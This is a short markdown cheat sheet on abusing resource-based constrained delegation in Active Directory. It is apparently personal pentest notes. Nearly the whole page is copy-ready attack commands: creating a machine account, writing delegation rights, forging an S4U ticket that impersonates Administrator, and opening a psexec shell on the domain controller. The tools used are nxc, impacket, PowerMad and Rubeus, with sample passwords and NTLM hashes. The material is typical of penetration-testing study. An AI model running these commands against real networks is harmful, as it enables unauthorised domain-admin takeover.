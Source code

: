 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Kerberos
  - msDS-AllowedToActOnBehalfOfOtherIdentity
  - AD
---
```

## Linux
---

### With nxc
impersonate administrator given `msDS-AllowedToActOnBehalfOfOtherIdentity` is set on account we control
```bash
nxc smb 192.168.56.11 -u jon.snow -p iknownothing --delegate Administrator
```
### With impacket
Add computer you control
```PowerShell
impacket-addcomputer -computer-name 'rbcd-test$' -computer-pass 'Megaman!1' -dc-ip 192.168.0.100 its-piemonte.local/tantani:'AAAAaaaa!1'
```
example with hash
```PowerShell
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'Password123!' -dc-ip 192.168.146.175 resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```
Configure delegation rights
```PowerShell
impacket-rbcd -delegate-to 'its-dc1$' -delegate-from 'rbcd-test$' -dc-ip 192.168.0.100 -action write its-piemonte/tantani:'AAAAaaaa!1'
```
Example with hash
```PowerShell
impacket-rbcd -delegate-to 'RESOURCEDC$' -delegate-from 'rbcd$' -dc-ip 192.168.146.175 -action write resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```
Request ticket for admin
```PowerShell
impacket-getST -spn cifs/its-dc1.its-piemonte.local -impersonate Administrator -dc-ip 192.168.0.100 its-piemonte.local/rbcd-test:'Megaman!1'
```
another example
```PowerShell
impacket-getST -spn cifs/RESOURCEDC.resourced.local -impersonate Administrator -dc-ip 192.168.146.175 resourced.local/rbcd:'Password123!'
```
auth with ccache
```PowerShell
export KRB5CCNAME=Administrator@cifs_RESOURCEDC.resourced.local@RESOURCED.LOCAL.ccache
```
PSEXEC IN
```PowerShell
impacket-psexec Administrator@resourced.local -k -no-pass -dc-ip 192.168.146.175
```
## Windows
---
Windows [PowerMad](https://github.com/Kevin-Robertson/Powermad) has a cmdlet to let us create machine accounts:
```PowerShell
New-MachineAccount -MachineAccount baud -Password $(ConvertTo-SecureString 'Baudy16!1' -AsPlainText -Force)
```
Configure rights (with default AD powershell module)
```PowerShell
Set-ADComputer its-dc1 -PrincipalsAllowedToDelegateToAccount baud$
```
use rubeus
```PowerShell
# get AES:
Rubeus.exe hash /password:Baudy16!1 /user:baud$ /domain:its-piemonte.local
# get only RC4:
Rubeus.exe hash /password:Baudy16!1
```
  
```PowerShell
Rubeus.exe s4u /user:baud$ /rc4:8F8172E42D04C1934FECC9E8404E2657 /domain:its-piemonte.local /msdsspn:cifs/its-dc1 /impersonateuser:administrator /ptt
```
  
Convert to auth ticket
```PowerShell
impacket-ticketConverter rubeusTicket.kirbi impacketTicket.ccache
```